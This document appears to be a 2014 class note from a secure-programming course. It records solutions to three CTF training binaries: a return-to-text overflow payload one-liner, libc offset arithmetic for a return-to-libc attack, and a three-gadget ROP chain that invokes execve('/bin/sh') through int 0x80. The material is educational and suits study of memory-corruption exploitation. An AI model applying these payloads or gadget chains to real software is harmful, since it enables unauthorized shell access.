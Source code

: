 ====================
 Secure Programming
====================

:date: 2014-11-04 18:55
:tags: secprog, ctf, return-oriented-programming
:category: note
:slug: secure-programming-20141104
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: 2014/11/04 Secure Programming Class Note

foo_4
=====

Training for "return to text" attack.

- binsh: 0x0804a030
- system: 0x080483e0

- ``print 'a'*24 + '\xe0\x83\x04\x08' + 'aaaa' + '\x20\x86\x04\x08'``


foo_5
=====

Training for "return to libc" attack.

Notice: libc.so is provided

- ``$ objdump -d libc.so``
    - 00019970 <__libc_start_main>:
    - 0003fc40 <__libc_system>:
        - offset: 262d0

Example:
Function: libc_start_main's address is :  0xf75f5970
Function: libc_system's address is : 0xf75f5970 + 0x262d0 = 0xf761bc40

- ``$ objdump -R foo_5``
    - 0804a01c R_386_JUMP_SLOT   __libc_start_main
- 0804a02c <binsh>:
    - actual address: 08048620

foo_6
=====

Training for "return-oriented programming" attack.

- int 0x80
- eax: call what
- ebx, ecx: arguments
- remember the number of pops, smash the stack

Gadget 1
--------

- first gadget: 0x080594ac
- reset eax to 0 by XOR itself
- value for ``pop ebx``: 0x080be568 (/bin/sh)
- return address of first gadget: 0x0805cc5c

.. code-block:: nasm

    80594ac:       31 c0                   xor    eax,eax
    80594ae:       5b                      pop    ebx
    80594af:       c3                      ret

Gadget 2
--------

- second gadget: 0x0805cc5c
- garbage value for ``pop edi``: aaaa
- return address of second gadget: 0x0805cc5c
- repeat 11 times to make eax = 0x0000000b
- last return address of second gadget: 0x0806f0e0

.. code-block:: nasm

    805cc5c:       40                      inc    eax
    805cc5d:       5f                      pop    edi
    805cc5e:       c3                      ret

Gadget 3
--------

third gadget: 0x0806f0e0

.. code-block:: nasm

    806f0e0:       cd 80                   int    0x80
    806f0e2:       c3                      ret

Failed Gadget
-------------

Program received signal SIGSEGV in 0x080db8ce. Still don't know why :(

.. code-block:: nasm

    80db8cd:       40                      inc    eax
    80db8ce:       02 af 0a 0e 0c 41       add    ch,BYTE PTR [edi+0x410c0e0a]
    80db8d4:       c3                      ret

Cannot use ``pop eax`` because 0x0000000b contains 00 which is null. It will
terminate the input string unexpectedly.

.. code-block:: nasm

    80e205d:  58                      pop    eax
    80e205e:  c3                      ret

